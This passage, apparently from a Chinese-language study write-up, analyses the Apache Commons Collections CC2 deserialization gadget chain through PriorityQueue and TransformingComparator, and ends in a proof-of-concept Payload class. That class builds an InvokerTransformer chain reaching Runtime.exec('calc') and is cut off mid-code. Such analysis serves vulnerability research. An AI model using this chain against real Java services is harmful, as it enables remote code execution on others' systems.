 跟进siftUpComparable

```
private void siftUpComparable(int k, E x) {
    Comparable<? super E> key = (Comparable<? super E>) x;
    while (k > 0) {
        int parent = (k - 1) >>> 1;
        Object e = queue[parent];
        if (key.compareTo((E) e) >= 0)
            break;
        queue[k] = e;
        k = parent;
    }
    queue[k] = key;
}
```

这里会把值添加到queue中去,就实现了对queue数组的控制

然后在实例化PriorityQueue类的时候,调用这个构造函数

![image-20211220232335767](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211220232335767.png)

```
PriorityQueue queue = new PriorityQueue(1);
```

这样comparator就为空了

不过我们还是要设置comparator的值为TransformingComparator对象,不然反序列化的时候调用compare方法的时候无法触发TransformingComparator里面的compare方法

所以这里先不设置comparator的值,在添加元素后size>=2了，再通过反射去设置comparator的值

```
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,comparator);
```

## 漏洞复现

经过上面的分析,最后完整的POC如下

```
package CC2;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Payload {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
```